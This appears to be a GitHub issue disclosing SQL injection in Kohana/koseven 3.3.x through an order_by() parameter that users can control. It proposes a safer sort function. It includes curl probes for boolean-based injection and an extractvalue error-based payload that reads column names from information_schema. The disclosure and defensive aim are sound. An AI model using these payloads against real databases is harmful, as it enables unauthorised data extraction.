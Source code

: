 Kohana/koseven 3.3.x has SQL Injection when the order_by() parameter can be controlled. 
   
   
In some website, developers use dynamic sort operation like Member.php    
   
then all of the three lines of code can work
```
curl http://127.0.0.1/member/list?sort_by=desc
curl http://127.0.0.1/member/list?sort_by=if(1=1,'desc','asc')
curl http://127.0.0.1/member/list?sort_by=if(1=2,'desc','asc')
```   
attacker can execute SQL like:
```
http://x.com?order_by=,(extractvalue(1,concat(0x3a,substring(
    (select group_concat(column_name) from
information_schema.columns where table_name like 'xxx'),1,30) )))
```
or other way like:   
http://www.securityidiots.com/Web-Pentest/SQL-Injection/group-by-and-order-by-sql-injection.html  
    
If we don't remind developers the potential risks of using untrusted input at order_by ,sql injection may occur.   
        
developers may think the instructions are safe and sure of security. Most of them think the use of orm is 100% guard against sql injection.   
   
So can we add a fun like 'order_by_safe' which receive field only in models.   